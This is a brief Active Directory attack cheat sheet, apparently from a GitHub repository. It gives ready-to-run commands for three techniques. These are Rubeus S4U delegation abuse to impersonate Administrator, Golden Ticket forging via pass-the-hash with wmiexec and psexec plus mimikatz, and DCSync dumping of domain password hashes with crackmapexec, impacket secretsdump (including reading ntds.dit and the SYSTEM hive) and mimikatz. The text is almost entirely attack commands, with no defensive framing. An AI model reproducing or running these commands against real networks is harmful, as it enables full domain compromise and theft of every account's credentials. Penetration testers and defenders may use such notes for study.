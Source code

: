 Ask for TGS to delegate

```
Rubeus.exe s4u /user:username /rc4:X /impersonateuser:Administrator /domain:domain.local /msdsspn:SQLService.domain.local /ptt
```

### Golden Ticket

First you need to know 4 things
- Administrator name
- Administrator SID
- Domain name
- krbtgt hash
then,
use wmiexec.py to log as Administrator to know the SID

```
python3 wmiexec.py -hashes hash domain/Administrator@MACHINE-IP -codec cp949
whoami /user
```

then, use psexec to login to machine has mimikatz with administration privilege

```
python3 psexec.py -hashes hash domain/Administrator@MACHINE-IP cmd.exe
chcp 65001
```

after opening mimikatz, to create the golden ticket

```
kerberos::golden /admin:administrator /domain:GEMY.local /sid:X /krbtgt:X /ticket:GEMY_golden.tckt
// use klist to check if the ticket inserted.
kerberos::list
```

### DCsync

Use Crackmapexec

```
crackmapexec smb 192.168.68.132 -u 'SQLService' -p 'Password123!' --ntds drsuapi
```
or secretsdump.py
```
python3 secretsdump.py domain.local/Administrator:'Password123!'@DC-IP -just-dc
```
or
```
python3 secretsdump.py -ntds C:\Windows\NTDS\ntds.dit -system C:\Windows\System32\Config\system -dc-ip DC-IP domain.local/username:password@Target-IP
```

From mimikatz

```
lsadump::dcsync
```
